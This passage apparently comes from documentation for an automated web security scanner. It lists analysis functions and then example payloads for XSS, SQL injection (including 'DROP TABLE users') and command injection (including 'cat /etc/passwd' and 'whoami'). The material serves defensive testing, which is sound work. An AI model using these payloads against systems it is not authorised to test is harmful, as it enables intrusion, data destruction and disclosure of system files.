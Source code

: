 3. **analyzeSecurityHeaders(page)**
   - Security header presence and configuration analysis
   - Security score calculation
   - Recommendation generation

4. **analyzeSessionSecurity(page)**
   - Session cookie security analysis
   - Cookie attribute validation
   - Session management assessment

5. **testSecurityMisconfigurations(page)**
   - Common security misconfiguration testing
   - Sensitive file exposure detection
   - Information disclosure prevention

## Security Configuration

### Vulnerability Payloads

#### XSS Payloads
```javascript
xss: [
  '<script>alert("XSS")</script>',
  '"><script>alert("XSS")</script>',
  '<img src=x onerror=alert("XSS")>',
  '<svg onload=alert("XSS")>',
  '<iframe src="javascript:alert(\'XSS\')"></iframe>'
]
```

#### SQL Injection Payloads
```javascript
sqlInjection: [
  "' OR '1'='1",
  "'; DROP TABLE users; --",
  "' UNION SELECT * FROM users --",
  "admin'--",
  "1' OR '1'='1' /*"
]
```

#### Command Injection Payloads
```javascript
commandInjection: [
  '; ls -la',
  '| whoami',
  '&& cat /etc/passwd',
  '`id`',
  '$(whoami)'
]
```

### Security Thresholds
